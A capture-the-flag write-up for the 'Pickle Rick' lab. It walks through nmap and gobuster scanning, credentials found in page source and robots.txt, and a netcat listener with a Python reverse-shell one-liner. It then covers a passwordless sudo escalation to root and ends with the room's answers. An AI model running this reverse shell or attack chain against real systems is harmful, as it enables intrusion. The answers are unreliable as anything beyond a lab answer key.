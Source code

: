 # Pickle Rick

## Nmap

**nmap -A -sC 10.10.62.29**

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-25 18:13 CET
Nmap scan report for 10.10.62.29
Host is up (0.060s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c3:64:30:d9:d1:81:45:21:b1:b2:33:fa:8a:f8:b3:4f (RSA)
|   256 6d:f5:08:88:52:1d:c4:b1:18:6d:3e:e2:b3:3e:8e:97 (ECDSA)
|_  256 bb:1f:32:48:65:51:03:c8:c3:08:45:ab:4a:52:f4:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.17 seconds
 ```


![image](https://github.com/prox11/CTF-Writeups/assets/148764185/5fffc11d-df88-4100-84dd-556791907873)


## Gobuster
**gobuster dir -u http://10.10.62.29 -w /usr/share/wordlists/dirb/big.txt -x php,txt**


```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.62.29
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/11/25 18:23:51 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess.txt        (Status: 403) [Size: 299]
/.htaccess.php        (Status: 403) [Size: 299]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd.php        (Status: 403) [Size: 299]
/.htpasswd.txt        (Status: 403) [Size: 299]
/assets               (Status: 301) [Size: 311] [--> http://10.10.62.29/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 299]
Progress: 61350 / 61410 (99.90%)
===============================================================
2023/11/25 18:29:49 Finished
===============================================================

 ```

## Source code and robots.txt

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/d5b849d6-e359-4242-8aa2-98b6429dda45)

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/ffd0a4f7-e55b-4874-9929-e504e6c498ea)

    Username: R1ckRul3s
    robots.txt: Wubbalubbadubdub

## Login page and shell

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/484714e7-d2c2-493a-ac48-c9d7ba136a9d)

      Username: R1ckRul3s
      Password: Wubbalubbadubdub

**nc -lvnp 4444**

**python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.146.46",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'**

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/1b42b811-490c-401d-b1c1-763d36a0b9b8)


![image](https://github.com/prox11/CTF-Writeups/assets/148764185/315629ac-bbad-418c-aac4-ef91ab108015)

## PrivEsc

**sudo -l**

```
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-62-29.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-62-29.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```
www-data@ip-10-10-62-29:/var/www/html$ sudo su
sudo su
root@ip-10-10-62-29:/var/www/html# whoami
whoami
root
root@ip-10-10-62-29:/var/www/html# 
```

<details>
    <summary>What is the first ingredient Rick needs?</summary>
  
    mr. meeseek hair
</details>

<details>
    <summary>Whats the second ingredient Rick needs?</summary>
  
    1 jerry tear
</details>

<details>
    <summary>Whats the final ingredient Rick needs?</summary>
    
    fleeb juice


</details>

